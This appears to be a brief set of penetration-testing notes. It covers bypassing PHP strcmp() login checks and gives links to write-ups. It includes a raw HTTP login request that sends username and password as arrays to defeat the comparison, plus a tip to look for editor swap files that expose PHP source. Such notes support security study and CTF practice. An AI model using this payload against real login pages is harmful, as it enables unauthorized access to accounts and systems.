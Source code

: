 ## strcmp() bypass

https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#strcmp-strcasecmp

```
POST /login.php HTTP/1.1
Host: 10.123.32.1
...
Cookie: PHPSESSID=6avn5uvc0cnm8jc3qbm5numppa
Upgrade-Insecure-Requests: 1

username[]=%22%22&password[]=%22%22
```

## Misc

* Check for swap files (e.g. login.php.swp) of php files we'd like to see the source code for